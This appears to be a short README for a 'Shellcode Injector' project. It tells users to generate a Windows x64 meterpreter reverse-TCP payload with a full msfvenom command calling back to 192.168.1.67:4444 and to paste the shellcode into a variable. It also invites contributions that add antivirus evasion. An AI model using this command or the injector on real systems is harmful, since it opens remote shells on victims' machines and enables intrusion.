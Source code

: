 # Shellcode Injector
### instructions
1. Gen your msfvenom shellcode :
`msfvenom -platform windows --arch x64 -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.67 LPORT=4444 -f c --var-name=wannabe`
2. Put your shellcode in the `wannabe` variable.

### Warning
This does not bypass AV as of now, we did not implement anything for it. If you want to contribute and add it, feel  free to do so.
This is simply to play with memory allocation and execution. 
